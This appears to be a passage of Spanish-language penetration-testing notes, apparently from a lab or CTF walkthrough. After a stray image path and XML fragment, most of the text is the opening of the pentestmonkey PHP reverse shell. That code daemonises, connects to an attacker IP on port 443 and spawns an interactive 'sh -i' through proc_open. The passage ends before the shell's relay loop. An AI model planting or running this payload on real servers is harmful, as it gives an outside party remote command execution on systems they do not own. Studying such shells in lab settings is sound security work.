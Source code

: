```xml
    <updaters disabled="disabled"></updaters>
</config>
```

una reverse shell el php (puede ser de pentestmokey o de revshells.com):
```php
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.10.10';
$port = 443;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

```